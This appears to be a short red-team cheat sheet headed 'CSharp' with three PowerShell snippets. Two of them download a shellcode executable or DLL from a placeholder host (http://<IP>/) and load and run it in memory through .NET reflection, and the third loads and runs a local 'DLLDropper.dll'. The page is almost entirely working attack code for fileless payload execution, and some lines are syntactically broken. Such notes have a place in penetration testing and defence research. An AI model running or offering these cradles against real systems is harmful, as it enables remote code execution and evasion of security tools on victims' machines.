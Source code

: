 # CSharp

Download the cradle and load it from memory.

```powershell
$data = (New-Object Net.WebClient).DownloadData("http://<IP>/Shellcode.exe")
$assem = [System.Reflection.Assembly]::Load($data)
[Shell.Program()]::Main()
# [Program()]::Main()
# [Shell.Program()]::Main("".Split())
```

Execute shellcode.

```powershell
PS C:\> [System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("DLLDropper.dll")
[RunDLLPublicFunc.Class1]::runner()
```

Download the cradle and load it from memory.

```powershell
$data = (New-Object Net.WebClient).DownloadData("http://<IP>/Shellcode.dll")
$assembly = [System.Reflection.Assembly]::Load($data)
$class = $assembly.GetType("Shellcode.Class1")
$method = $class.GetMethod("<method_name>")
$method.Invoke(0, $null)
```